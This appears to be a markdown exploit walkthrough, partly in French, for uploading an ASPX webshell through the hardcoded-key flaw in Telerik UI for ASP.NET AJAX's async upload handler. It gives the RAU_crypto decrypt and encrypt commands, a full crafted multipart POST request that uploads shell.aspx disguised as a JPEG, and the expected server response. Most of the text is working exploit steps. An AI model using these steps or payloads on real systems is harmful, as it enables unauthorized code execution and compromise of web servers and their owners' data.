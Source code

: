 # Webshell exploit - Telerik UI for ASP.NET AJAX

The Telerik library has an hardcoded key, then it is possible to decode the "rauPostData" and to modify it in order to upload a webshell.

First you have to identify the vulnerable link: https://URL/Telerik.Web.UI.WebResource.axd?type=rau

Then you have to use the following python script available on github in order to decrypt/encrypt the "rauPostData" field:  https://github.com/bao7uo/RAU_crypto:

```
python3 RAU_crypto.py -D "ATTu5i4R+ViNFYO6kst0jC11wM/1iqH+W/isjhaDjNuCI7eJ/BY5d1E9eqZK27CJCMuon9u8/hgRIM/cTlgLlv4qOYjPBjs81Y3dAZAdtIr3TXiCmZi9M09a1BYMxjvGKfVky3b7PoOppeWS/3rgldxu1TGN4BfIe3ZPc2c3sB35eKSQ0h48TaSQv2K/BE4Jh23M1Ac3/ERQgqlx+BhCkdKH6MnBdL5avdiJIYeRgqLjIfzPqHi6jL6PWyXWr/su+RYAwlu...qQFE7IKGs="
```

Une fois décodé, on obtient le résultat suivant :

```
JSON: {"TargetFolder":"jgas0mTw==","TempTargetFolder":"YIGV6iU3FJMHN7xqIJFEon6eU=","MaxFileSize":31457280,"TimeToLive":{"Hours":4,"Minutes":0,"Seconds":0,"Milliseconds":0,"Ticks":144000000000,"Days":0,"TotalDays":0.16666666666666666,"TotalHours":4,"TotalMilliseconds":14400000,"TotalMinutes":240,"TotalSeconds":14400},"UseApplicationPoolImpersonation":false,"AllowedFileExtensions":[".pdf",".txt",".rtf",".doc",".docx",".docm",".dot",".dotx",".dotm",".csv",".xls",".xlsx",".xlsm",".xlt",".xltx",".xltm",".xlsb",".xlam",".ppt",".pptx",".pptm",".pps",".ppsx",".ppsm",".potx",".potm",".ppam",".sldx",".sldm",".msg",".png",".gif",".jpg",".jp2",".tiff",".bmp",".zip",".xml"]}
```

The two important elements to retrieve are:

 - TempTargetFolder = **D:\WWW\APP\App_Data\RadUploadTemp** 
 - Version =  **2014.3.1024.40**

Once these elements retrieve, it is possible to prepare the new POST request with the Webshell:

```
python3 RAU_crypto2.py -p "D:\WWW\APP" "2014.3.1024.40" shell.aspx
```

(Shell.aspx is the path where you store the webshell on your local machine)

Then you just have to send the upload form with:

-  the modified "rauPostData";
- the "UploadID" wich will be the name of your webshell to upload


```
POST /Telerik.Web.UI.WebResource.axd?type=rau HTTP/1.1
Host: URL
...
Connection: close

-----------------------------9756552771978474811260608736
Content-Disposition: form-data; name="rauPostData"

ATTu5i4R+ViNFY...FE7IKGs=

-----------------------------9756552771978474811260608736
Content-Disposition: form-data; name="file"; filename="blob"
Content-Type: application/octet-stream

<!-- INSERT HERE WEBSHELL -->

-----------------------------9756552771978474811260608736
Content-Disposition: form-data; name="fileName"

aze.jpg
-----------------------------9756552771978474811260608736
Content-Disposition: form-data; name="contentType"

image/jpeg
-----------------------------9756552771978474811260608736
Content-Disposition: form-data; name="lastModifiedDate"

2017-12-12T20:26:12.000Z
-----------------------------9756552771978474811260608736
Content-Disposition: form-data; name="metadata"

{"TotalChunks":1,"ChunkIndex":0,"TotalFileSize":27775,"UploadID":"shell.aspx","IsSingleChunkUpload":false}
-----------------------------9756552771978474811260608736--
```

You should have a similar response:

```
HTTP/1.1 200 OK
Content-Length: 619

{"fileInfo":{"FileName":"aze.jpg","ContentType":"image/jpeg","ContentLength":1657,"DateJson":"2017-12-12T20:26:12.000Z","Index":0}, "metaData":"CS8S/Z0J/b2982DRxDin0BBslA7fI0cWMuWlPu4W3FnNOs7VxBpjTqF/KbG9UGJsxKh5U7y7dwOs9mh76GOdBONL03/qL+TB4qbl6aSL5Gb/NdrY/hxEfmzfS+ZfJyYp7oTkhxWPzL+wf+uIPRQkufxCOGaPx3/KmDen+xMjfMqiprf4he4lAyq7g+sCm+mj6B24nCQAAiCegue/21Mrjd0o34x20/lFf82UcLCLpGASd9fAmfSloWakoJIMFj48Mf0Iov3JOw03Zfu2FMSlmEnkhZtflIIJxdFvw6fRcYkl+ZGRGnEAtljzxrlhqyPigEwEjOSSLnJCyFAWJzab5eeeu/VuFGGdMXB6cBbLleT0UVgUtl0BD6hn48RhHAIkkF1SyIu6ht96OyAu4n9oaGRhmojjyMQ4Lw+HE3TVF516Y028+xqZM3UdErg7JL9GoTtU4rjMzQFpEMTM7XBOZw==" }
```

By decoding the "metaData" field:

```
{"TempFileName":"shell.aspx","AsyncUploadTypeName":"Telerik.Web.UI.UploadedFileInfo, Telerik.Web.UI, Version=2014.3.1024.40, Culture=neutral, PublicKeyToken=121fa..ba3d4"}
```

## Links:
https://www.the-s-unit.nl/node/78

http://www.acenyethehackerguy.com/2017/11/the-issue-asyncuploadhandler-in.html

https://github.com/straightblast/UnRadAsyncUpload/wiki

https://github.com/bao7uo/RAU_crypto

